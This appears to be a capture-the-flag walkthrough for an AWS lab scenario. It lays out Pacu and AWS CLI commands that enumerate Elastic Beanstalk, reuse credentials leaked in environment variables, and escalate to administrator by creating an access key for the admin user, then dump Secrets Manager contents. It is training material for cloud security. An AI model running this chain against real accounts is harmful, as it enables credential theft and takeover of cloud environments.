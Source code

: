 # Beanstalk Secrets Walkthrough

## Summary

In this scenario, you are provided with low-privileged AWS credentials. Your task is to enumerate Elastic Beanstalk applications and environments, discover misconfigured environment variables that leak secondary credentials, and then use these credentials to enumerate IAM permissions. By exploiting the ability to create an access key for an administrator user, you will escalate your privileges and ultimately retrieve the final flag stored in AWS Secrets Manager.

## Detailed Walkthrough

### Configuring the AWS Keys

After launching the scenario, you will be provided with an AWS Access Key ID and Secret Access Key for the low-privileged user. Configure your AWS CLI profile with these credentials:

```bash
aws configure --profile beanstalk
```

You will be prompted for the Access Key, Secret Key, Region, and output format. For example:

```bash
AWS Access Key ID: AKIA2HV********
AWS Secret Access Key: v+xInRa11dSj**************
Default region name: us-east-1
Default output format: json
```

Verify your access:

```bash
aws sts get-caller-identity --profile beanstalk
```

### Enumerating Elastic Beanstalk

Use Pacu to enumerate Elastic Beanstalk applications and environments:

```bash
Pacu (beanstalk:imported-beanstalk) > run beanstalk__enum --region us-east-1
```

The module will list available applications and environments. Notice the misconfigured environment where environment variables reveal secondary credentials.

### Checking Permissions with Pacu

Next, assess the permissions of the low-privileged user by enumerating available IAM actions:

```bash
Pacu (beanstalk:imported-beanstalk) > run iam__bruteforce_permissions --region us-east-1
```

Review the output to understand the limited permissions available on Elastic Beanstalk and IAM.

### Switching to the Secondary User

The Elastic Beanstalk environment stores secondary credentials in its environment variables. Use these credentials to configure a new AWS CLI profile:

```bash
aws configure --profile beanstalk2
```

Verify the secondary user’s access:

```bash
aws sts get-caller-identity --profile beanstalk2
```

### Enumerating IAM with the Secondary User

With the secondary credentials, enumerate IAM permissions:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__enum_permissions
```

This will display additional IAM permissions, including the ability to create an access key for other users.

### Privilege Escalation with CreateAccessKey

Run the privilege escalation scan in Pacu to identify exploitable methods:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --scan-only
```

Notice that the `CreateAccessKey` method is confirmed as a viable escalation vector. Now execute the method to target the administrator user:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --user-methods CreateAccessKey
```

Follow the prompts to select the admin user. Pacu will then generate a new access key for the admin user and display the credentials.

### Configuring the Admin Profile

Using the new admin credentials, set up an AWS CLI profile:

```bash
aws configure --profile admin
```

Enter the provided admin Access Key ID and Secret Access Key. Confirm access:

```bash
aws sts get-caller-identity --profile admin
```

### Retrieving the Final Flag

Finally, with admin privileges, run the secrets enumeration module to retrieve the final flag:

```bash
Pacu (beanstalk3:imported-admin) > run secrets__enum --region us-east-1
```

Check the downloaded secrets in the Pacu output directory (typically under `~/.local/share/pacu/<session>/downloads/secrets/`). For example:

```bash
cat ~/.local/share/pacu/beanstalk3/downloads/secrets/secrets_manager/secrets.txt
```

The file should contain the final flag, for example:  
`FLAG{*********************}`
